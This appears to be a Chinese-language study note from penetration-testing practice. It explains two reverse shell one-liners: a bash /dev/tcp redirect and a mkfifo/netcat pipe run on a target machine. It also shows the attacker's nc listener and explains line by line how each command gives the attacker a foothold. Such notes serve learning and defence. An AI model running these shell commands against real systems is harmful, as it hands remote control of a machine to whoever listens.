

``` bash
bash -i >& /dev/tcp/192.168.2.22/5566 0>&1
```

这里的 bash 交互性 shell。先将标准输出文件交给 linux 伪终端设备也就是 22 主机 5566 端口的socket 文件。然后将自己的标准输入文件重定向为 远端socket 的输出。从而形成立足点。

# 最原始的命令理解

靶机执行
```shell
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.10.117 4444 > /tmp/f
```

kali 监听
```shell
sudo nc -lvnp 4444
```

mkfifo 是个新增管道的工具。这个操作旨在不使用系统原有的管道文件。注意 linux 命令中的 | 这个符号指挥接受标准输出，丢弃标准错误输出。这条命令的原理是先在靶机上新增一个管道文件，如果有旧的同名文件则删除。将管道中的内容输出给一个交互性质的 Bash 进程。此时管道中没有内容。当管道中有命令时，则会将命令通过 | 交给 Bash 执行。Bash 会将标准错误和标准输出一起交给 nc 进程。nc 进程会将命令执行的结果和错误通过 f 管道返回给 kali 终端。kali 终端此会监听我们的下一行命令执行输出给 f 管道。以此获得系统立足点。

cat 的角色是将 f 管道的命令输出给 Bash 解释器。nc 工具则将命令执行的结果和错误信息返回给远端 kali。又把远端 kali 的信息重新放回管道。

